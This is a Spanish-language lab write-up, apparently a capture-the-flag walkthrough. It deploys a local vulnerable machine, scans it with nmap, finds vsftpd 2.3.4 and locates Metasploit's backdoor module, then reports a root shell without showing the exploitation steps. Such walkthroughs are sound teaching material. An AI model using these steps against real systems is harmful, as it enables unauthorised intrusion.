

Desplegaremos la maquina con el siguiente comando:
```bash
sudo bash auto_deploy.sh trust.tar
```

en caso de éxito nos mostrará el siguiente mensaje:

```bash
❯ sudo bash auto_deploy.sh trust.tar

Estamos desplegando la máquina vulnerable, espere un momento.

Máquina desplegada, su dirección IP es --> 172.17.0.2

Presiona Ctrl+C cuando termines con la máquina para eliminarla
```

escaneamos todos los puertos :
```bash
❯ nmap -p- -Pn --min-rate 5000 172.17.0.2
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-15 18:38 CEST
Nmap scan report for 172.17.0.2
Host is up (0.000099s latency).
Not shown: 65534 closed tcp ports (conn-refused)
PORT   STATE SERVICE
21/tcp open  ftp

Nmap done: 1 IP address (1 host up) scanned in 1.40 seconds
```

Parece que solo hay un servicio ftp, vamos a hacerle un escaneo mas profundo a este servicio:
```bash
❯ nmap -p21 -sCV 172.17.0.2
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-15 18:39 CEST
Nmap scan report for 172.17.0.2
Host is up (0.00016s latency).

PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 2.3.4
Service Info: OS: Unix

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 1.72 seconds
```
POr el escaneo y las pruebas que hago manuales, no podemos entrar como anonymous, por lo unico que nos quedaría para este servicio es ver si la version **vsftpd 2.3.4** que tiene es vulnerable.

En mi caso usare metasploit, así que arrancamos el framework con msfconsole:


```bash
❯ msfconsole
Metasploit tip: Use help <command> to learn more about any command
                                                  

      .:okOOOkdc'           'cdkOOOko:.
    .xOOOOOOOOOOOOc       cOOOOOOOOOOOOx.
   :OOOOOOOOOOOOOOOk,   ,kOOOOOOOOOOOOOOO:
  'OOOOOOOOOkkkkOOOOO: :OOOOOOOOOOOOOOOOOO'
  oOOOOOOOO.    .oOOOOoOOOOl.    ,OOOOOOOOo
  dOOOOOOOO.      .cOOOOOc.      ,OOOOOOOOx
  lOOOOOOOO.         ;d;         ,OOOOOOOOl
  .OOOOOOOO.   .;           ;    ,OOOOOOOO.
   cOOOOOOO.   .OOc.     'oOO.   ,OOOOOOOc
    oOOOOOO.   .OOOO.   :OOOO.   ,OOOOOOo
     lOOOOO.   .OOOO.   :OOOO.   ,OOOOOl
      ;OOOO'   .OOOO.   :OOOO.   ;OOOO;
       .dOOo   .OOOOocccxOOOO.   xOOd.
         ,kOl  .OOOOOOOOOOOOO. .dOk,
           :kk;.OOOOOOOOOOOOO.cOk:
             ;kOOOOOOOOOOOOOOOk:
               ,xOOOOOOOOOOOx,
                 .lOOOOOOOl.
                    ,dOd,
                      .

       =[ metasploit v6.3.44-dev                          ]
+ -- --=[ 2376 exploits - 1232 auxiliary - 416 post       ]
+ -- --=[ 1388 payloads - 46 encoders - 11 nops           ]
+ -- --=[ 9 evasion                                       ]

Metasploit Documentation: https://docs.metasploit.com/
```

y buscamos la version del servicio ftp:
```bash
[msf](Jobs:0 Agents:0) >> search vsftpd 2.3.4

Matching Modules
================

   #  Name                                  Disclosure Date  Rank       Check  Description
   -  ----                                  ---------------  ----       -----  -----------
   0  exploit/unix/ftp/vsftpd_234_backdoor  2011-07-03       excellent  No     VSFTPD v2.3.4 Backdoor Command Execution


Interact with a module by name or index. For example info 0, use 0 or use exploit/unix/ftp/vsftpd_234_backdoor

[msf](Jobs:0 Agents:0) >> 
```

parece que existe una vulnerabilidad que nos puede permitir ejecutar comandos a través de un backdoor del servicio, vamos a usarlo y configurarlo a ver si da resultado:



y nos da una shell con root:


Con esto ya hemos comprometido la maquina.